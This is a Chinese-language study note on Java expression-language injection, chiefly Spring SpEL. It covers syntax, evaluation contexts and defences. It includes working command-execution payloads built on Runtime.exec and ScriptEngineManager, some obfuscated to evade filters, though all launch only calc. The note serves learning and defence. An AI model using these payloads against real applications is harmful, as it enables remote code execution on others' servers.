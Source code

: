 OGNL(struts2)、SpEL(spring)、MVEL、EL、Fel、JSTL+EL等
## **EL表达式**
原生EL（Expression Language）表达式 是为了使JSP写起来更加简单。
```
//执行命令
${"".getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval("new java.lang.ProcessBuilder['(java.lang.String[])'](['cmd','/c','calc']).start()")}
```


^
## **Spring的SpEL表达式注入**
<https://xie.infoq.cn/article/66d003327e05ab4528fca5a41>
```
把字符串当做代码执行。
数学表达式执行。
配置文件解析：SpEL可以解析配置文件中的动态值，引用其他属性或方法的值，实现配置的动态性。
SpEL通常用在Spring框架的某些特定场景中，比如在配置文件中通过`${...}`使用属性占位符，或者在注解中实现复杂的逻辑，例如`@Conditional`注解。
```

当集成的spring-boot-starter-web依赖后，就可以自动使用。
关键词：StandardEvaluationContext()；
```
String spel ="T(java.lang.Runtime).getRuntime().exec(\"calc\")"; 
//T()包裹后可以直接调用静态方法和静态属性。
ExpressionParser parser=new SpelExpressionParser();
Expression expression=parser.parseExpression(spel);
EvaluationContext context=new StandardEvaluationContext();
expression.getValue(context);

```

CVE复现：<https://cloud.tencent.com/developer/article/2144995>
防御：使用时做白名单，只有需要的字符串才能当作代码执行。

# SpEL参考文档
- https://cloud.tencent.com/developer/article/1676200
- https://www.cnblogs.com/xfeiyun/p/16914131.html
- https://juejin.cn/post/7117839866523549710#heading-2
# AOP讲解
- https://www.liaoxuefeng.com/wiki/1252599548343744/1266265125480448
- https://pdai.tech/md/spring/spring-x-framework-aop.html#google_vignette

# SpEl + AOP 实现日志记录
- https://blog.csdn.net/ke7025/article/details/122185525

# SpEL 注入
<https://www.kingkk.com/2019/05/SPEL%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5-%E5%85%A5%E9%97%A8%E7%AF%87/>

# SpEL表达式 #{} 和 {} 和 # 和 '' 的使用
1. #{} 表达式
   #{} 用于在 Spring 配置文件中表示需要解析的 SpEL 表达式。主要用于注解、XML 配置和属性文件中，通常在需要动态计算的场景下使用。
```java 
@Value("#{systemProperties['user.home']}")
private String userHome;
```
2. `#` 符号   
`#` 符号在 SpEL 表达式中用于引用变量或方法。通常在解析上下文中使用，以引用方法、属性或在表达式中定义的变量。
```java 
SpelExpressionParser parser = new SpelExpressionParser();
StandardEvaluationContext context = new StandardEvaluationContext();
context.setVariable("number", 42);

Integer number = parser.parseExpression("#number").getValue(context, Integer.class);
```
3. ` '' `字符串  
   用于在 SpEL 表达式中表示字符串文字。字符串文字在 SpEL 表达式中必须用单引号括起来，以区分其他类型的值（如数字、变量等）。
```java 
SpelExpressionParser parser = new SpelExpressionParser();
String result = parser.parseExpression("'Hello ' + 'World'").getValue(String.class);
```
4. `{}`   
    花括号 {} 通常用于在集合、数组或映射中表示集合字面量。以下是一些具体的用法和示例。
# Spel注入  
存在Spel注入的前提是存在SpEl相关的库，如下是相关的库
```java
org.springframework.expression.spel.standard
SpelExpressionParser
parseExpression
expression.getValue();
expression.setValue();
```
 SpEl解析SpEL提供了两套不同的接口，分别是"SimpleEvaluationContext"和"StandardEvaluationContext"。其中"SimpleEvaluationContext" 
 仅支持简单的表达式，抛弃了Java类型引用，构造函数，相较比较安全。而"StandardEvaluationContext" 支持复杂的表达式，如方法调用、属性访问等。
 如果在不指定EvaluationContext的情况下，SpEl默认使用"StandardEvaluationContext"。
 ```java
// 执行exec
T(java.lang.Runtime).getRuntime().exec("calc.exe");
#this.getClass().forName("java.lang.Runtime").getRuntime().exec("calc.exe");

 ```

## 构造payload
```java
T(java.lang.Ru" + "ntime).getRuntime().exec('calc');
String spel = "T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\").getMethod(\"ex\"+\"ec\",T(String[]))" +".invoke(T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\")" +".getMethod(\"getRu\"+\"ntime\").invoke(T(String).getClass()" +".forName(\"java.l\"+\"ang.Ru\"+\"ntime\")),new String[]{\"cmd\",\"/C\",\"calc\"})\n";
new javax.script.ScriptEngineManager().getEngineByName("javascript").eval("java.lang.Runtime.getRuntime().exec('calc')")";
T(java.lang.Runtime).getRuntime().exec("calc")
T(java.lang.Runtime).getRuntime().exec(new String(new byte[]{0x63,0x61,0x6c,0x63}))
```

# Spel 防御
##  使用 SimpleEvaluationContext
```java
SpelExpressionParser parser = new SpelExpressionParser();
SimpleEvaluationContext context = SimpleEvaluationContext.forReadOnlyDataBinding().build();
expression.setValue(context, "payload");
```

##  白名单过滤
略
